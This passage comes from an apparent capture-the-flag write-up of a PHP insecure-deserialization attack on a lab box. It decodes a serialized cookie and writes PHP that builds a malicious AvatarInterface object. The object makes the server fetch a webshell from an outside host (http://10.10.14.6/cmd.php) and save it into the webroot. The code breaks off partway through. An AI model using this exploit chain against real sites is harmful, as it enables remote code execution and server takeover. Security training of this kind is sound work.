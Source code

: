 This matches the cookie I saw deserialized in the code. Replacing `%3d` with `=` (URL decode), this base64 decodes to:

```

oxdf@hacky$ echo Tzo5OiJVc2VyUHJlZnMiOjE6e3M6NToidGhlbWUiO3M6NToibGlnaHQiO30= | base64 -d
O:9:"UserPrefs":1:{s:5:"theme";s:5:"light";}

```

That’s a PHP serialized object.

#### Generate Serialized Payload

I’m going to grab a lot of the PHP code from `utils.php` and use it to generate a serialized object.

```

<?php
...[snip]...
$avatar_interface = new AvatarInterface();
$avatar_interface->tmp = "";
$avatar_interface->imgPath = "";
$cookie = base64_encode(serialize($avatar_interface));
echo $cookie;
?>

```

The `Avatar` and `AvatarInterface` classes are unchanged (not shown). I’ll create a new `AvatarInterface` instance, and set the `$tmp` and `$imgPath` parameters. I’ll then serialize and base64 encode the result, and write that out.

So what are the `$tmp` and `$imgPath` values? When `unserialize` is called on this cookie, it will call the `__wakeup` function of `AvatarInterface`, creating a new `Avatar` with an `$imgPath` I give. Then it will call `save` with `$tmp`. `save` uses `file_get_contents` to read the contents of a file at the path `$tmp`, and writes that to `$imgPath`.

Since I want to write a webshell, I’ll want to write to the webroot. Something like `./cmd.php` will work fine.

Getting a webshell is a bit tricker. There are a couple ways I could go about it. The intended path for the box is to change my username to include a webshell, and then reference my session file at `//var/lib/php/sessions/sess_[session id]`.

But `file_get_contents` will also read over the network. So I’ll set it to a URL such as `http://10.10.14.6/cmd.php`.

My final code is:

```

<?php

class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}

class AvatarInterface {
```